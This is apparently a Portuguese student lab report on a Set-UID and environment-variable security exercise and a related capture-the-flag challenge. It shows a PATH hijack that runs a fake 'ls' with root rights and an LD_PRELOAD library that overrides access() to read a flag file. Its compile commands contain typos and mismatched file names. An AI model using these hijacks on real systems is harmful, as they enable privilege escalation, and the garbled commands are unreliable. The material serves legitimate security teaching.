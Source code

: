 # Trabalho realizado na Semana #4

## Environment Variable and Set-UID Program Lab

### Task 1:

No primeiro passo, usámos o comando ‘printenv’ para visualizar as variáveis de ambiente no terminal, como mostrado na captura de tela.

<img src="/images/image.png">

Em seguida, utilizámos o comando ‘printenv PWD’ para exibir a variável de ambiente PWD no terminal, como demonstrado na captura de tela.

<img src="/images/image2.png">

Prosseguimos para os comandos ‘export’ e ‘unset’, que foram usados para definir e eliminar uma variável de ambiente, como ilustrado nesta captura de tela:

<img src="/images/image3.png">

### Task 2:

Conforme solicitado na primeira etapa, compilámos e executámos o código contido em ‘myprintenv.c’. O resultado foi armazenado num arquivo chamado ‘file’, que continha todas as variáveis de ambiente, como mostra na captura de tela:

<img src="/images/image4.png">

Em seguida, seguimos o passo 2, descomentando o segundo ‘printenv()’ e comentando o primeiro. Compilámos e executámos o código novamente e, desta vez, o resultado foi salvo no arquivo ‘file2’, que também continha todas as variáveis de ambiente, conforme demonstrado em seguida:

<img src="/images/image5.png">

Finalmente, no passo 3, usámos o comando ‘diff’ para comparar os arquivos ‘file’ e ‘file2’, mostrando que não havia diferenças entre eles, como está evidenciado a seguir. Isto permite-nos concluir que as variáveis de ambiente do processo pai são transferidas para o processo filho sem perda de informações.

<img src="/images/image6.png">

### Task 3:

Seguindo o que foi pedido, compilámos e executámos o código contido em ‘myenv.c’. Na primeira execução, não foi apresentada nenhuma saída no terminal, como demonstrado:

<img src="/images/image7.png">

Em seguida, passamos para o passo 2, modificando uma linha de código e compilando e executando o código novamente. Desta vez, as variáveis de ambiente foram exibidas no terminal, conforme demonstrado nesta captura de tela:

<img src="/images/image14.png">

Podemos concluir que o último parâmetro da função ‘execve()’ corresponde ao ambiente no qual o comando é executado. Quando passamos ‘NULL’ como ambiente, nenhuma variável de ambiente é mostrada. No entanto, quando passamos ‘environ’ (o ambiente atual do usuário), todas as variáveis de ambiente são exibidas, como aconteceu na tarefa anterior.

### Task 4:

Após compilar e executar o código no arquivo ‘task4.c’, todas as variáveis de ambiente foram exibidas, como está ilustrado na captura de tela que se segue. Isto indica que a função ‘system()’ passa as variáveis de ambiente como um array para a função ‘execve()’.

<img src="/images/image8.png">

### Task 5:

Após criar o código no arquivo ‘task5.c’, compilá-lo, definir a propriedade como root e torná-lo um programa Set-UID, além de criar três variáveis de ambiente (PATH=/usr/bin, LD_LIBRARY_PATH=/home/seed/FSI, X=isto), ao executar o programa, observámos que todas as variáveis criadas aparecem no processo filho, exceto a variável LD_LIBRARY_PATH, por razões de segurança para evitar o controlo de links dinâmicos através de executáveis Set-UID.

<img src="/images/image9.png">
<img src="/images/image10.png">


Captura de ecrã variáveis de ambiente demonstradas por printenv, que incluem LD_LIBRARY_PATH:

<img src="/images/image11.png">
<img src="/images/image12.png">

### Task 6:

Para realizar esta tarefa, começámos por modificar a variável de ambiente PATH para incluir o diretório onde criámos os arquivos como o primeiro local para procurar o comando solicitado. Em seguida, compilámos o código fornecido no arquivo ‘task6.c’, definimos a propriedade como root e tornámos o programa num Set-UID. Em seguida, criámos um novo código no arquivo ‘attack.c’ com dois ‘printf()’ para indicar se o processo tem permissões de root ou não:

<img src="/images/image15.png">

Ao compilar o programa ‘attack.c’ com o nome ‘ls’ e executar o resultado da compilação do código ‘task6.c’, o código do primeiro é executado devido ao uso de um caminho relativo no comando ‘system()’. O ‘printf’ no terminal informa que o processo não tem permissões de root:

<img src="/images/image17.png">

No entanto, se executarmos o comando fornecido no enunciado ($ sudo ln -sf /bin/zsh /bin/sh), o mecanismo de segurança do ‘sh’ é contornado. Portanto, ao executar novamente o programa, o ‘printf’ informa que o processo tem permissões de root:

<img src="/images/image16.png">

## Environment Variable and Set-UID Program CTF

Em primeiro lugar, acedemos ao servidor descrito no contexto com o programa netcat.
Ao entrar no sevidor, podemos ler os ficheiros que lá estão guarados, e de destaque: 
- o ficheiro "admin_note.txt", que descreve que temos acesso a criar folders no diretorio "/tmp";
- o ficheiro "my_script.sh", que faz chamadas que vão buscar environment variables ao diretório "/env";
- o ficheiro "main.c", que usa a função access;

Após uma pesquisa na internet, descobrimos que a função acccess tem o seguinte formato: `int access(const char *pathname, int mode);`

Para além disso, ao correr o código `echo "LD_PRELOAD=/tmp/libtentei.so.1.0.1" > env;`
permite guardar as variaveis de ambiente para uma library nossa;

Depois disso, como só podemos escrever código no /tmp, acedemos à pasta e escrevemos o seguinte programa:

` echo #include <stdio.h> `
` #include <stdlib.h> `

`int access(const char *pathname, int mode){`
`    system("/usr/bin/cat /flags/flag.txt > /tmp/sucesso.txt);`
`   return 0;`
`} > qwe.c; `

Com o programa escrito, compilamos o código da seguinte maneira:

`gcc -fPIC -g -c tentei.c;`
`gcc -sgared -o libtentei.so.1.0.1 qwe.o -lc;`

De forma a termos acesso ao ficheiro para onde vamos escrever a informação do tmp, criamos o ficheiro de texto com: `touch sucesso.txt`
e por último damos acesso ao admin para o ficheiro sucesso com `chmod 777 sucesso.txt;`

É de notar que este exercício foi bastante facilitado após a realização do exercício 7 do guião de Enviornment variables;